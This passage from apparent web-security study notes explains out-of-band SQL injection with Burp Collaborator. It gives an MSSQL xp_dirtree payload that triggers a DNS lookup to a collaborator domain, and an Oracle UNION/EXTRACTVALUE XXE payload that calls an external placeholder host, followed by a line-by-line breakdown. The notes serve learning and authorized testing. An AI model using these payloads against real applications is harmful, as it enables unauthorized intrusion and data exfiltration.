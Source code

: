 A tool for using out-of-band techniques is Burp Collaborator.

It is a server that provides custom implementations of various network services, including DNS. It allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Burp Suite Professional includes a built-in client that's configured to work with Burp Collaborator right out of the box.

the following input on Microsoft SQL Server can be used to cause a DNS lookup on a specified domain:

```
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

This causes the database to perform a lookup for the following domain:

```
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```



**payload:**

```
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual--
```

1. **UNION SELECT**: This part of the injection indicates that the attacker is attempting to append their own SQL query to the original query. The `UNION` operator is used to combine the result sets of two separate SELECT queries into a single result set.
2. **EXTRACTVALUE(xmltype('\<?xml version="1.0" encoding="UTF-8"?>\<!DOCTYPE root \[ \<!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l')**: Here, the attacker is using the `EXTRACTVALUE` function in Oracle SQL to extract a value from an XML document. The XML document is crafted by the attacker and contains a reference to an external entity declared in the DTD (Document Type Definition) section.
   * The XML document starts with a standard XML declaration (`<?xml version="1.0" encoding="UTF-8"?>`).
   * Then, a DTD is defined within the XML document using `<!DOCTYPE root [ ... ]>` syntax. Within the DTD, an external entity `%remote` is declared, which points to a URL specified by the attacker (`http://BURP-COLLABORATOR-SUBDOMAIN/`).
   * The `%remote;` entity is then referenced within the XML document.
   * The `EXTRACTVALUE` function is then used to extract a value from this crafted XML document. The XPath expression `/l` is specified, attempting to extract the value of the `<l>` element from the XML document.
3. **FROM dual**: In Oracle SQL, `dual` is a special one-row, one-column table. It is commonly used in SQL queries where you don't need to query any particular table, but you still need to execute some SQL logic.
4. **--**: This is a comment in SQL. Everything after `--` is ignored by the SQL engine.

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
